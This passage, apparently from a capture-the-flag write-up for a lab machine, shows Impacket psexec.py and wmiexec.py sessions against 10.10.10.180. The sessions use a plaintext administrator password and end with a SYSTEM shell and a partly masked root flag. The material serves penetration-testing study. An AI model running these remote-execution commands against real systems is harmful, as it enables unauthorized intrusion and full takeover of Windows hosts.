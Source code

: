     [*] Requesting shares on 10.10.10.180.....
    [*] Found writable share ADMIN$
    [*] Uploading file ErcBEqYW.exe
    [*] Opening SVCManager on 10.10.10.180.....
    [*] Creating service amHC on 10.10.10.180.....
    [*] Starting service amHC.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    nt authority\system
    

Or `wmiexec.py`:

    
    
    root@kali# wmiexec.py 'administrator:!R3m0te!@10.10.10.180'
    Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation
    
    [*] SMBv3.0 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>whoami
    remote\administrator
    

From any of these, I can grab the flag:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
    e2aeb068************************
    

[](/2020/09/05/htb-remote.html)


